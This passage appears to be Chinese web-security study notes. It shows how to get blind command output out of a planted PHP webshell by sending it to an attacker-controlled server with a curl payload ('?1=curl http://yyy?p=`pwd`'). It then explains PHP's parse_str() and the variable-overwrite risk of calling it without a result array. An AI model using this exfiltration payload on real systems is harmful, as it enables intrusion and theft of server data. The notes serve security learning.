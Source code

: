 此时我们可以用`http://xxx/shell.php?1=`的方式执行任意无回显的命令。

用`CURL`命令怎么让结果显示出来捏？

先上`payload`：

```php
?1=curl http://yyy?p=`pwd`
```

说明一下，`http://yyy`是我们自己的服务器，需要能看到日志，没有的话可以用[这个](https://requestbin.net/)。

`payload`里面的那个`p`随便什么都可以。

传入这个`payload`后，在`php`里会先执行反引号包裹的`pwd`，这样假如说当前路径是`/app`，那么`curl`其实真正访问的是：

```bash
curl http://yyy?p=/app
```

这样我们查看被访问机器里面的日志，就可以看到结果了。

![image-20221011155322021](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210111553378.png)

这里需要注意，带入的数据长度是有限的。因此可以采取`grep`到关键数据或者限定长度的方式来带出数据。

## parse_str()

```php
parse_str(string $string, array &$result): void
// 如果 string 是 URL 传递入的查询字符串（query string），则将它解析为变量并设置到当前作用域（如果提供了 result 则会设置到该数组里 ）。从PHP8.0开始，$result参数是强制的。
```

示例：

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";
// 注意，不需要带引号什么的

// 带第二个参数，推荐
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不带第二个参数，容易被攻击
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?>
```

## extract()
